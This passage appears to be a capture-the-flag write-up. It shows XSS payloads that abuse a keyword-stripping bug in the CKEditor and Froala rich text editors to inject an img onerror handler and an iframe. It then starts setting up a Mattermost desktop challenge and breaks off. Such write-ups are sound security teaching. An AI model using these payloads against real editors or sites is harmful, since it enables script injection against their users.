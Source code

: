 We can't pass unclosed HTML text to this method normally because it gets fixed before reaching there (that HTML structure fixing phase). However we can do it using that bug in `removeReservedKeywords` function.

```
<c<cke:encoded></cke:encoded>ke:encoded>%3Cimg src=1 onerror="alert()"</c<cke:encoded></cke:encoded>ke:encoded>
```

It worked and we saw an alert!

#### Putting all together

The following payload opens an iframe to example.com on all text editors.

```
<iframe src="//example.org"></iframe><c<cke:encoded></cke:encoded>ke:encoded>%3Ciframe src="//example.com"
```

Then you can open an iframe or redirect to froala or ckeditor with XSS payload in the url. This approach is apparently unintended.

## In the End

### Intro

This challenge involved finding and exploiting a 1-day vulnerability in a popular open source communication platform called Mattermost. We could send a direct message to admin via a webhook API. Admin was using Mattermost desktop to view the messages we send to it and admin was also clicking our message. 

#### How to setup server

You can download the mattermost server from  [here](https://releases.mattermost.com/5.33.3/mattermost-5.33.3-osx-amd64.tar.gz). Follow the instructions listed in [officual docs]( https://docs.mattermost.com/install/installing-ubuntu-2004-LTS.html) to setup the server locally and you should be able to visit the server at http://localhost:8065/login


Create an admin + normal user account and a channel (explained in the challenge README file) and you are ready to go.
![](https://i.imgur.com/5cB7FJz.png)

#### How to setup Client

Download the vulnerable client from [here](https://github.com/mattermost/desktop/releases/tag/v4.6.2).

### Finding the Vulnerability

Doing some OSINT we found out that the challenge author (@knapstack) had recently reported a vulnerablity on mattermost client.  

 
> https://mattermost.com/security-updates/ 
> (Remote Code Execution) Upgraded Electron to prevent latest >vulnerabilities. Thanks to Aaditya Purani for contributing to this >improvement under the Mattermost responsible disclosure policy. 
> 
> (Input Validation) Fixed an issue where a specially crafted link bypassed security checks and allowed opening arbitrary web pages within the desktop app. Thanks to Elnerd for contributing to this improvement under the Mattermost responsible disclosure policy.
